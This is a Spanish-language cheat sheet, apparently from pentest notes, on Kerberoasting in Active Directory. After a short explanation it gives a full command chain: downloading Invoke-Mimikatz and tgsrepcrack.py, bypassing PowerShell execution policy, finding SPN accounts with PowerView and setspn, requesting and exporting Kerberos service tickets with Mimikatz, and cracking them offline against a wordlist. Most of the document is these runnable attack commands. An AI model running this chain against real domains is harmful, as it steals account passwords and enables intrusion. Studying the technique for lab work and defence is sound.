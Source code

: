 # Kerberoasting 

Tags: #AD #Window #Powershell #Kerberos 

Kerberoasting es una tecnica de post explotación que permite obtener un hash de una password de una cuenta de AD que tiene un 'Service Principal Name' (SPN). Un usuario autenticado del dominio solicita a Kerberos un ticket para un SPN. El ticket es encriptado con un hash de servicio afiliado a la password del usuario con el SPN. El atacante después offline craquea la password del hash con técnicas de fuerza bruta. Una vez obtenida la credencial en texto plano, el atacante puede ingresar al sistema, dispositivos o redes de la cuenta comprometida. 

```bash 
# Descargamos la utilidad en nuestra maquina de atacante para despues pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1
❯ wget https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py
```

```bash 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

❯ . .\PowerView.ps1                          # Importamos el modulo
❯ Get-NetUser | Where-Object {$_.servicePrincipalName} | fl 
❯ setspn -T research -Q */*                  # Identificar las cuentas de usuario con SPN activado
	# fl = Format List

❯ klist # Lista los tickets de Kerberos de la sesion del usuario actual 
❯ Add-Type -AssemblyName System.IdentityModel 
# Solicitar a TGS ticket para el SPN usando Kerberos
❯ New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/domain.local:1434"

❯ . .\Invoke-Mimikatz.ps1         # importamos el modulo 
❯ Invoke-Mimikatz -Command '"kerberos::list /export"'     # Listara todos los tickets de Kerberos y los exportara 
```

```bash 
# Craquear la password del TGS usando Tgrepcrack en Kali
❯ python3 tgsrepcrack.py /usr/share/wordlists/rockyou.txt 1-40a1-student@ops~local.kirbi 
	# TGS ticket File = 1-40a1-student@ops~local.kirbi
```